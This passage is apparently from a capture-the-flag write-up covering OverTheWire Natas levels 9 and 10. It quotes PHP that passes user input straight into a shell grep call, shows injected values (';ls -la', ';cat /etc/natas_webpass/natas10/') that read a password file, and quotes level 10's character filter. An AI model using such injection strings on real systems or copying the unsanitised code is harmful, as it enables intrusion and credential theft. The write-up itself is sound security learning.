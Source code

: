<pre>
Access granted. The password for natas9 is ***********************
</pre>

<h1>9</h1>

<p>This time we have something new - form searching in an dictionary. Let's check the source code. </p>

{%highlight php%}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
{% endhighlight %}

<p>Actually, what this script does is very dangerous. We know that grep is command line function searching through the text files. But what, if we have entered semicolon and then another command? Acutally, you can see it working by entering <b>;ls- la</b> in search form.  </p>

{%highlight bash%}
-rw-r----- 1 natas9 natas9 460878 Jun 25  2016 dictionary.txt
{% endhighlight %}

<p>Great, lets view the password by entering ;cat /etc/natas_webpass/natas10/, as it's also location of all passwords, which was stated in the beginning. </p>

<pre>
Output:
***********************

African
Africans
Allah
Allah's
</pre>

<p>Let's move to the next one!</p>

<h1>10</h1>

<p>This time we have the updated version of the script from the last one, filtering for certain characters.  </p>

{%highlight bash%}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
{% endhighlight %}
